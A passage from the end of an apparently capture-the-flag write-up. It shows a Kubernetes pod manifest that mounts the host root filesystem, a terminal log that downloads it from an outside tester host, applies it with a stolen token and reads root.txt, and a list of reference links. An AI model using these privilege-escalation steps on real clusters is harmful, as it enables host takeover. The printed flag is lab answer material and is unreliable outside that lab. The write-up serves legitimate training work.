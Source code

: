           path: /
      containers:
      - image: localhost:5000/node_server
        imagePullPolicy: Always
        name: attacker-pod
        volumeMounts:
          - name: host-fs
            mountPath: /root
      restartPolicy: Never

  root@devnode-deployment-cd86fb5c-6ms8d:/tmp# wget http://10.10.14.2:4499/attacker.yaml
  root@devnode-deployment-cd86fb5c-6ms8d:/tmp# ./kubectl --token=$TOKEN apply -f attacker.yaml
    pod/attacker-pod created
  root@devnode-deployment-cd86fb5c-6ms8d:/tmp# ./kubectl --token=$TOKEN exec -it attacker-pod -n default -- bash
    Unable to use a TTY - input is not a terminal or the right kind of file
    id && hostname
      uid=0(root) gid=0(root) groups=0(root)
      attacker-pod
    cat root.txt
      59538ae4da62a3871d1cb220284bcda6


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝


Prototype Pollution:
  https://blog.0daylabs.com/2019/02/15/prototype-pollution-javascript/
  https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution

Bash Variable Substitution:
  https://unix.stackexchange.com/questions/312702/bash-variable-substitution-in-a-json-string

Install kubectl:
  https://kubernetes.io/docs/tasks/tools/install-kubectl-linux/#install-kubectl-binary-with-curl-on-linux

Kubernetes kubectl commands:
  https://book.hacktricks.xyz/pentesting/pentesting-kubernetes/enumeration-from-a-pod
  https://kubernetes.io/docs/reference/access-authn-authz/authorization/
  https://book.hacktricks.xyz/pentesting/pentesting-kubernetes

Kubectl token:
  https://kubernetes.io/docs/reference/access-authn-authz/authentication/
